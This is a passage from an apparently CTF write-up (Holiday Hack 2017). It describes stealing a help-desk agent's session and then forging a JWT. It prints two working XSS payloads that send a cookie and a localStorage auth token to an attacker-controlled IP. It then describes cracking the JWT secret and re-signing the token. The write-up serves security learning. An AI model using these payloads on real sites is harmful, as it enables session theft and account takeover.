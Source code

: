 ## 8. 3lv3s
In order to gain access to the EDB server, we were left with no option but to perform an XSS attack on a poor elf supporter. First we looked through the code and could see that there were several XSS client side checks before we could submit a support ticket. The hint led us to [owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet](owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) trying out quite a few XSS variants we ended up using `<img src=x onerror=this.src='http://<my ip>:1337/collect.gif?cookie='+document.cookie />` and got the value of the Cookie! `hxxer50N2e1C2AFt5X06`… hmm… the hints mentioned a JWT token, but this was definitely not a JWT token (see how it's missing the `.` separators?). So this was apparently a deadend. Where else could one store stuff in a browser? localStorage of course! We had looked all over the javascript sourcecode and somehow managed to completely miss this: `token = localStorage.getItem("np-auth");` so changing our XSS slightly to `<img src=x onerror=this.src='http://<my ip>:1337/collect.gif?cookie='+localStorage.getItem("np-auth") />` produced 
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I
```
a JWT token! decrypted it reads:
```
{
 "dept": "Engineering",
 "ou": "elf",
 "expires": "2017-08-16 12:00:47.248093+00:00",
 "uid": "alabaster.snowball"
}
```
At first glance this looked perfect! so we tried to set it in our own browsers localStorage `np-auth` key. But no it didn't work… and then we saw why! The token had expired! (wait how did it work for that supporter then?! ಠ_ಠ) hmm… in order to change the expires value we had to find the key that the JWT token was signed with. If we just changed the value of expires then the signature part of the JWT would no longer be valid. We found a very nice and simple JWT cracker [https://github.com/brendan-rius/c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker) that had our poor laptop sweating for a couple of minutes before spitting put the secret `3lv3s`

Then we were able to change the value of expires and sign the new JWT token, set it in localStorage, hit refresh and 💥 BOOM we were in!

![edb screenshot](/assets/img/posts/sanshhc2017edbui.png)
Now we're greeted by a form where we can search for LDAP users that are either in the "elf" or "reindeer" ou(organizational unit). The task is to gain access to a letter on the server, we see that in the "Account" menu there is a "Santa Panel"… but we can't open it, only Santa can and right now we're logged in as Alabaster. We know the secret to generate a new JWT token, but we don't know what "ou" or "dept" Santa is in, but we're pretty sure that he's not in "elf" or "reindeer", so we need to exploit the LDAP search. 
